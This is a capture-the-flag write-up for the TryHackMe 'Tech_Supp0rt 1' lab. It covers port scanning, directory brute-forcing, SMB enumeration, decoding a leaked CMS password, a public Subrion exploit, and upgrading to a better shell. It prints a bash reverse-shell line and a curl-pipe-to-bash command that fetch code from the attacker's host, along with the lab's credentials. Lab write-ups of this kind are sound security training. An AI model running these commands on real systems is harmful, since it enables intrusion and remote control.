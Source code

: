 #  Tech_Supp0rt 1 CTF writeup | Tryhackme.com

Hack a scammer's website and ruin their day.

First scan the ports with rustscan:


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_1.png)


![rsc1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/rustscan_2.png)

Ports:\
Open 10.10.197.14:22 - SSH\
Open 10.10.197.14:80 - HTTP\
Open 10.10.197.14:139 - NetBIOS\
Open 10.10.197.14:445 - SMB

Now let's inspect this IP in our browser.

![indexhtml](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/indexhtml.png)

It is a basic apache webserver welcome site, but there's probably more hidden underneath. Find it out with gobuster!

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/gobuster.png)

*/test* and */wordpress* are the directories we are looking for here so let's check both of them.

**TEST**\
![test](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/test.png)

Test is basically a static scammer site, can't really click anywhere. I've looked into the source code but besides the images not much seems to be here.
Let's try wordpress maybe we will find more useful stuff there.

**WORDPRESS**\
![wp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wordpress.png)

Okay so here we could browse all the tabs or be lazy and run gobuster. I did both.

By browsing this directory I found a wordpress admin login site and some Hello World comments by the user named: **support**

Gobuster basically confirmed this

`gobuster dir -u http://10.10.197.14/wordpress -w /usr/share/dirb/wordlists/common.txt -x php,html,txt,sh`

    /license.txt          (Status: 200) [Size: 19915]
    
    /readme.html          (Status: 200) [Size: 7345]
    
    /wp-admin             (Status: 301) [Size: 325] [--> http://10.10.197.14/wordpress/wp-admin/]
    
    /wp-includes          (Status: 301)[Size:328][-->http://10.10.197.14/wordpress/wp-includes/]

I did the same with /test but haven’t found anything useful there

At this point we hit a dead end, so our only remaining option is to check SMB shares and find something (hopefully).

![smb1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smbclient.png)

![smb2](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/smb2.png)

Success! The first share didn't work but websvr had this interesting enter.txt.\
Cat this out.

`cat enter.txt`

    GOALS

    =====

    1)Make fake popup and host it online on Digital Ocean server
    2)Fix subrion site, /subrion doesn't work, edit from panel
    3)Edit wordpress website



    IMP
    ===
    Subrion creds
    |->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
    Wordpress creds
    |->

Cooked with magical formula suggests that we are dealing with a hashed pw here. First I tried crackstation and hashanalyzer but both attempts failed.\
Cyberchef on the other hand could work perfectly with.. the magic formula.

![chef](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/cyberchef.png)

That was easy, we found a password: **Scam2021**

The note left by the scammer will lead us to our next step if we take it literally. Let's navigate to */subrion/panel*

![subrion](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/subrion%20panel.png)

It is worth noting what version the CMS has. Probably it would be a good idea to search any vulnerabilities (if there are any).\
We found just what we needed:
https://www.exploit-db.com/exploits/49876

**THE EXPLOIT:**
As we already know the username and the password, using this script will be no big problem for us.

![python exploit](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/python%20exploit.png)

With whoami we see that we have user permissions, and an inconvenient shell. We can't really cd or use useful commands as we have no standard output.\
At least we can see what lies in the home directory and what users we have to deal with.

**scamsite** Is our guy.
![usr_scamsite](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/user_scamsite.png)


Ideally we should have a better shell, as this one doesn't operate that great. I used a bash reverse shell for that, while hosting the shell code `bash -i >& /dev/tcp/IP/PORT 0>&1` on a local python webserver.\


`curl <OUR IP>:8000/shell.sh | bash `


![rshell1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/bash%20reverse%20shell.png)

Now that we have a better shell we can run linpeas.sh from our computer:

![lp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/wp_config_PW.png)

We have found suspicious info here. Remember user 'support'? Grab the PW and try to log in with SSH.\
`Use the following credentials:`

    scamsite
    ImAScammerLOL!123!


![sshlogin](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Tech_Supp0rt%201/tech_supp0rt%201%20images/login%20to%20SSH.png)

##### author: Dániel Varkoly
